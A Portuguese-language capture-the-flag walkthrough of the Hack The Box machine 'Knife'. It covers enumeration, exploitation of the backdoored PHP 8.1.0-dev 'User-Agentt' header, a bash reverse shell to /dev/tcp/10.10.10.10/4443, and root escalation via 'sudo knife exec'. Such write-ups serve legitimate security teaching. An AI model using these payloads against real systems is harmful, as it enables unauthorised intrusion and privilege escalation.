 ```yaml
---
layout: single
title: "Walktrough: HTB Knife"
namespace: htb-knife
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   *teaser
redirect_from: /writeup/2021/08/htb-knife
---
```


Olá!

A máquina desta semana será **Knife**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu/), criada por [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as máquinas são aposentadas.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

Esta máquina foi bem simples, onde você deve prestar atenção aos detalhes (no caso do webserver vulnerável) e sempre ir pelo caminho mais simples como abusar das permissões de `sudo` que o usuário já possui.

Espero que gostem!

## Enumeração

Como de costume, iniciei com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - Serviço HTTP

Acessando o website podemos ver uma simples página institucional de uma companhia do setor de saúde, conforme abaixo:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

Após acessar a página, obtido algumas informações adicionais, os componentes utilizados e qual o webserver em execução com ajuda do `whatweb` e o que chamou a atenção foi o cabeçalho `X-Powered-By` que aponta para uma versão de desenvolvimento do **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Acesso inicial e User flag

Como versões de desenvolvimento frequentemente contém vulnerabilidades, decidi buscar a respeito da mesma com `searchsploit` e encontrei uma vulnerabilidade de execução remota de código (RCE - *Remote Code Execution*) conforme listado abaixo:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

Esta vulnerabilidade consiste em um backdoor adicionado em alguns commits por contas comprometidas no código fonte do PHP onde, sempre que um request contém o cabeçalho `User-Agentt: "zerodiumsystem('cmd');"` é enviado, seu conteúdo é interpretado e executado, neste caso o conteúdo `cmd`. O exploit disponível simula um shell de modo não interativo e, a partir dele, iniciei um shell reverso interativo com o payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` que nos retornou uma sessão a partir da conta do usuário **james**, onde encontramos o arquivo `user.txt` e foi possível ler seu conteúdo, obtendo a primeira flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

Como de costume, iniciei com o comando `sudo -l` e tive sorte mais uma vez, vendo o seguinte output:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Realizando uma busca rápida a respeito do binário, encontrei que se trata de parte da solução de gestão de configuração [Chef](https://www.chef.io/) e, de acordo com a página [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo), poderia ser utilizada facilmente para escalar privilégio como root, conforme abaixo, nos permitindo obter a última flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
